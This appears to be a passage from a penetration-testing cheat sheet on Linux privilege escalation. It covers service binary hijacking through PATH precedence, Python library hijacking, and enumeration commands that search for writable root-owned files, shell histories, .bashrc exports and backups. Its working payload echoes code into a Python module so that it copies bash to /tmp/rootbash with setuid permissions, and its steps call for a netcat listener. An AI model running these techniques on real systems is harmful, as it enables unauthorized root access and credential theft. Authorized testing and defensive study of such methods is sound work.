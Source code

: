 ```service
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

4. (optional) activate netcat listener
5. restart the service or the machine

## ServiceBinaryHijacking

**Use case**: a *service unit file* executes a binary with no absolute path and has write permission in one of the PATH directories that take precedence over the directory in which the original binary is located.

Steps:
1. identify service executing binary without absolute path
2. locate PATH directories in which we have write permission and which take precedence over the original binary
3. verify that you have the privilege to restart the service:
	- Can I run *systemctl* with root? (SUID, *sudo -l*, ecc)
	- Can i reboot the machine? (*reboot* binary with SUID or *sudo -l*, ecc)
4. I generate malicious binary: I call it by the same name as the one used by the *service unit file* and place it in one of the PATH directories that takes precedence
5. (optional) activate netcat listener
6. restart the service or the machine

# PythonLibraryHijacking

**Use case**: we can run a Python script with root that attempts to import a library that does not exist. **Alternative use case**: Python module exists, but we have write privilege on it.

Steps:
1. we locate the Python script that we can run as root. We execute it and locate the library it is attempting to import
2. check that we have write permission in the same directory where the vulnerable Python script is located
3. we write the library that will be imported by the script

```shell
$ echo 'import os' >> <modulename>.py
$ echo 'os.system("whoami")' >> <modulename>.py
$ echo 'os.system("cp /usr/bin/bash /tmp/rootbash && chmod 4777 /tmp/rootbash")' >> <modulename>.py
```

# Enumeration

- enumerate ALL files found in the current users's "home" directory
- writing privilege
	- directories
		- `find / -writable -type d 2>/dev/null`
	- files owned by *root*
		- `find / -type f -user root -writable -exec ls -l {} \; 2>/dev/null | grep -v -e proc -e sys`
- file into "home" directories
	- *history*
		- `find / -iname '*histor*' -exec ls -l {} \; 2>/dev/null`
	- *.bashrc*
		- `find / -name '.bashrc' -exec ls -l {} \; 2>/dev/null`
		- `find / -name '.bashrc' -exec grep -i export {} \; 2>/dev/null`
- backups and configurations
	- `find / -name "*backup*" -exec ls -l {} \; 2>/dev/null`
	- `find / -name "*.bak*" -exec ls -l {} \; 2>/dev/null`
	- `find / -name "*.old" -exec ls -l {} \; 2>/dev/null`